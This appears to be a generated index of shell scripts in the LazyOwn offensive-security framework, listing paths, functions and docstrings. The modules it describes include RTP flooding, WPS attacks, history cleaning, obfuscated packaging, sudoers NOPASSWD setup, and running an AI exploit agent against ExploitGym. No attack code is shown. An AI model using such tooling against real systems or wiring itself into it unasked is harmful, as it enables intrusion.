- `validar_ip` (line 31) - *Validar dirección IP*

#### `lazyrtpflood.sh`
**Path:** `modules/lazyrtpflood.sh`

*No symbols extracted*

#### `lazyvpnshield.sh`
**Path:** `modules/lazyvpnshield.sh`
**File Doc:** *Author: Nisrin Ahmed aka Wh1teDrvg0n Modify: grisun0*

**Functions:**
- `save_current_rules` (line 29)
- `show_current_rules` (line 37)
- `apply_vpn_rules` (line 45)
- `undo_and_restore_rules` (line 86)
- `main` (line 113)
- `ctrl_c` (line 11)
- `check_sudo` (line 16)

#### `lazywps.sh`
**Path:** `modules/lazywps.sh`

**Functions:**
- `ctrl_c` (line 9)

#### `mkcloudflaretunnel.sh`
**Path:** `modules/mkcloudflaretunnel.sh`
**File Doc:** *cloudflare_tunnel.sh - Download cloudflared and create a tunnel to localhost on a specified port.*

*No symbols extracted*

#### `r.sh`
**Path:** `modules/r.sh`
**File Doc:** *Obtener la versión del kernel actual*

**Functions:**
- `download_kernel_sources` (line 10) - *Función para descargar y extraer las fuentes del kernel*

#### `clean_history.sh.sh`
**Path:** `modules/scripts/clean_history.sh.sh`

*No symbols extracted*

#### `smbver.sh`
**Path:** `modules/smbver.sh`
**File Doc:** *Author: rewardone Description: Requires root or enough permissions to use tcpdump Will listen for the first 7 packets of a null login and grab the SMB Version Notes: Will sometimes not capture or will print multiple lines. May need to run a second time for success.*

*No symbols extracted*

#### `tmp.sh`
**Path:** `modules/tmp.sh`

*No symbols extracted*

#### `update_db.sh`
**Path:** `modules/update_db.sh`
**File Doc:** *Nombre del script: update_db.sh Autor: Gris Iscomeback Correo electrónico: grisiscomeback[at]gmail[dot]com Fecha de creación: 09/06/2024 Descripción: Este script contiene la lógica principal de la aplicación. update_db Licencia: GPL v3   Banner*

*No symbols extracted*

#### `wineconfig.sh`
**Path:** `modules/wineconfig.sh`

*No symbols extracted*

#### `mutate.sh`
**Path:** `mutate.sh`

*No symbols extracted*

#### `py2elf.sh`
**Path:** `py2elf.sh`
**File Doc:** *Nombre del script: py2elf.sh Autor: Gris Iscomeback Correo electrónico: grisiscomeback[at]gmail[dot]com Fecha de creación: 09/06/2024 Descripción: Este script contiene la lógica principal de la aplicación. py2elf para ofuscar y paquetizar el Framework mediante pyinstaller Licencia: GPL v3*

*No symbols extracted*

#### `run_telegram_hermes.sh`
**Path:** `run_telegram_hermes.sh`
**File Doc:** *Launcher for telegram_hermes.py Uses the dedicated venv with python-telegram-bot dependencies*

*No symbols extracted*

#### `run_topoexploit_agent.sh`
**Path:** `run_topoexploit_agent.sh`
**File Doc:** *Run TopoExploit against an ExploitGym task using the local model.  Flow: 1. Start the TopoExploit OpenAI-compatible API server (host, GPU) if not up. 2. Invoke the ExploitGym harness with --agent topoexploit pointing at it.  Usage: ./run_topoexploit_agent.sh <task_id> [--no-mitigations]  Env: TOPOEXPLOIT_DIR    TopoExploit repo (default: <repo>/external/.exploit/TopoExploit) TOPOEXPLOIT_CKPT   checkpoint dir (default: checkpoints_topoexploit/last, relative to repo) TOPOEXPLOIT_PORT   API port (default: 8800) EXPLOITGYM_DIR     ExploitGym repo (default: <repo>/external/.exploit/exploitgym)*

**Functions:**
- `banner` (line 29)
- `start_api` (line 38)

#### `lazy_hermes_ask.sh`
**Path:** `scripts/lazy_hermes_ask.sh`
**File Doc:** *lazy_hermes_ask.sh — detached Hermes task runner for LazyOwn. Usage: lazy_hermes_ask.sh [--in DIR] [--resume SESSION] <task words...> Joins all args as one query and runs: hermes chat --oneshot -Q -q <query> against the local Qwen server (provider/flags match lazy_llamacpp).*

*No symbols extracted*

#### `lazy_llamacpp_serve.sh`
**Path:** `scripts/lazy_llamacpp_serve.sh`
**File Doc:** *lazy_llamacpp_serve.sh — idempotent llama.cpp server manager for LazyOwn.  Usage: lazy_llamacpp_serve.sh           # ensure server up, print endpoint + status lazy_llamacpp_serve.sh status    # health check only (exit 0/1) lazy_llamacpp_serve.sh stop      # stop the server started from this repo  Env overrides: LLAMACPP_HOST (default 127.0.0.1), LLAMACPP_PORT (8080), LLAMACPP_MODEL (gguf path), LLAMACPP_NGL (auto: 26 with NVIDIA GPU else 0), LLAMACPP_THREADS (default 8), LLAMACPP_CTX (default 65536).  Non-interactive: safe for addon execute_command and fast_run panes.*

**Functions:**
- `healthy` (line 33)

#### `lazy_llamacpp_setup.sh`
**Path:** `scripts/lazy_llamacpp_setup.sh`
**File Doc:** *lazy_llamacpp_setup.sh — one-time local LLM setup for LazyOwn users.  Interactively (or via flags) it: 1. builds llama.cpp from the lazy_llamacpp addon clone (CUDA when present), 2. downloads the Qwen 27B GGUF model (~8GB, asks first), 3. starts the server through lazy_llamacpp_serve.sh, 4. optionally patches opencode (~/.config/opencode/opencode.json), 5. optionally patches hermes (~/.hermes/config.yaml), 6. optionally sets payload.json local_llm so fast_run uses it.  Flags (all default to asking): --yes            accept every default without prompting --no-download    skip the model download (reuse existing models/*.gguf) --no-opencode    skip opencode config patch --no-hermes      skip hermes config patch --no-payload     skip payload.json local_llm change  The operator's existing setup is never touched without an explicit yes.*

**Functions:**
- `ask` (line 40)

#### `lazy_msf_lab.sh`
**Path:** `scripts/lazy_msf_lab.sh`
**File Doc:** *lazy_msf_lab.sh — Metasploitable2 smoke lab manager for LazyOwn.  The lab image is operator-provided (Rapid7 license): place metasploitable-linux-2.0.0.zip next to this script's install dir or pass its path via MSF_LAB_ZIP. The script never downloads the image itself.  Usage: lazy_msf_lab.sh setup [zip-path]  # unzip + import guidance lazy_msf_lab.sh up                # start VM headless lazy_msf_lab.sh status            # VM state + guest IP lazy_msf_lab.sh down              # stop VM lazy_msf_lab.sh smoke [target]    # loop smoke run, prints verdict  Non-interactive except setup's import guidance (operator imports once in VirtualBox; thereafter everything is CLI-driven).*

*No symbols extracted*

#### `mutate.sh`
**Path:** `scripts/mutate.sh`
**File Doc:** *Mutation gate for LazyOwn.  The gate runs the curated mutation runners under tests/. Each runner mutates one production module and asserts the matching test suite kills the mutant. A surviving mutant means the suite does not cover the behaviour, and the gate fails so the gap is closed before the change lands.  Modes: scripts/mutate.sh                    scoped to source files changed vs HEAD scripts/mutate.sh --all              every curated runner scripts/mutate.sh --list             print the available runners scripts/mutate.sh FILE [FILE ...]    runners that reference the given files  Environment: PYTHON             interpreter for the runners (default: env/bin/python3) MUTATION_TIMEOUT   per runner timeout in seconds (default: 1800)*

**Functions:**
- `runners` (line 29)
- `changed_sources` (line 33)
- `usage` (line 40)

#### `publish_wiki.sh`
**Path:** `scripts/publish_wiki.sh`
**File Doc:** *Publish LazyOwn documentation to the GitHub wiki.  The wiki is a separate git repository (https://github.com/grisuno/LazyOwn.wiki.git). This script clones it (or pulls latest), regenerates pages from the documentation that already exists in this repository, commits, and pushes.  Usage: bash scripts/publish_wiki.sh [--dry-run] [--no-push] [--wiki-dir <path>]  --dry-run        Generate pages locally without committing or pushing. --no-push        Commit locally but do not push to GitHub. --wiki-dir <p>   Directory for the wiki checkout (default: /tmp/lazyown-wiki).  Idempotent: re-running it refreshes every page from current sources.*

**Functions:**
- `log` (line 37)
- `fail` (line 38)
- `write_home` (line 58)
- `write_installation` (line 92)
- `write_c2_api` (line 150)
- `write_plugins` (line 174)
- `write_sidebar` (line 188)
- `write_footer` (line 207)

#### `setup_hermes_mcp.sh`
**Path:** `scripts/setup_hermes_mcp.sh`
**File Doc:** *setup_hermes_mcp.sh — register LazyOwn MCP server in Hermes Agent config Usage: bash scripts/setup_hermes_mcp.sh [--check] --check    verify registration without writing*

*No symbols extracted*

#### `smoke_onboarding.sh`
**Path:** `scripts/smoke_onboarding.sh`
**File Doc:** *Smoke test for the 5-minute onboarding path.*

**Functions:**
- `check` (line 8)

#### `test_bdd.sh`
**Path:** `scripts/test_bdd.sh`
**File Doc:** *Behavior-driven (BDD) suite gate for LazyOwn.  Every BDD scenario lives in a pytest module whose tests state the Given, When, Then contract in the docstring. This gate runs those modules, scoped to the files a change touched so the loop stays fast, with an --all mode for the full run at the end of a work unit.  Modes: scripts/test_bdd.sh                 changed BDD modules vs HEAD scripts/test_bdd.sh --all           every test module that declares BDD scripts/test_bdd.sh --list          print the BDD modules scripts/test_bdd.sh FILE [FILE ...] explicit test files  Environment: PYTHON        interpreter for pytest (default: env/bin/python3) PYTEST_ARGS   extra pytest arguments TIMEOUT       suite timeout in seconds (default: 3600) FAIL_FAST     when 1, stop at the first failing test*

**Functions:**
- `bdd_modules` (line 33)
- `changed_tests` (line 37)

#### `validate_agent_contract.sh`
**Path:** `scripts/validate_agent_contract.sh`
**File Doc:** *validate_agent_contract.sh  CI validation of the AGENTS.md branching model and coding standards. Called by .github/workflows/agent-contract.yml on every push/PR to dev.  Checks: 1. Branch name matches allowed patterns (dev, main, pp, feature/*, hotfix/*). 2. No commits from dev directly target main (PRs only). 3. No secrets or credentials committed (baseline check). 4. No Spanish strings in code files (enforce English-only rule). 5. No hardcoded IPs/paths/creds outside payload.json.*

**Functions:**
- `pass` (line 23)
- `fail` (line 27)
- `check` (line 32)
- `check_no_hardcoded_passwords` (line 59) - *-- No hardcoded credentials outside payload.json --- Pentest help-text, doc placeholders (<...>), template vars ({{ ... }}), shell arg plumbing ($1/$2/${...}), key-name constants and test fixtures are not committed secrets. Implemented as a function to avoid eval quoting pitfalls with nested quote classes.*
- `check_no_hardcoded_wordlists` (line 74) - *-- No hardcoded wordlist paths outside payload.json --- Help-text examples, docstrings and filesystem hints are allowed; only real default assignments outside payload.json are violations.*

#### `mcp_restart.sh`
**Path:** `skills/mcp_restart.sh`
**File Doc:** *LazyOwn MCP restart helper  Kills ALL lazyown_mcp instances (stdio + SSE) and relaunches the SSE daemon. After running this script: - The stdio server (lazyown) will be dead — Claude Code requires /mcp to reconnect. - The SSE daemon (lazyown-sse) will be running on http://127.0.0.1:PORT/sse  NOTE: The comment "Claude Code reconnects automatically" was WRONG. For stdio transport, reconnect is MANUAL via /mcp. For SSE transport (lazyown-sse), Claude Code reconnects automatically.  Usage: bash skills/mcp_restart.sh [PORT]*

*No symbols extracted*

#### `setup.sh`
**Path:** `skills/setup.sh`
**File Doc:** *============================================================================= LazyOwn MCP — One-time system setup Configures sudoers NOPASSWD and Linux capabilities so LazyOwn tools can run without interactive password prompts (required for MCP / non-TTY contexts).  Usage:  bash skills/setup.sh  Safe to re-run — all operations are idempotent. Supported: Debian/Ubuntu/Kali, Arch, Fedora/RHEL, macOS (capabilities skipped) =============================================================================*

**Functions:**
- `info` (line 15)
- `warn` (line 16)
- `die` (line 17)
- `paths_for_sudo` (line 61) - *Collect paths that exist on this system*
- `add_nopasswd` (line 92)

#### `test_bdd.sh`
**Path:** `test_bdd.sh`

*No symbols extracted*

#### `user_split.sh`
**Path:** `user_split.sh`

*No symbols extracted*
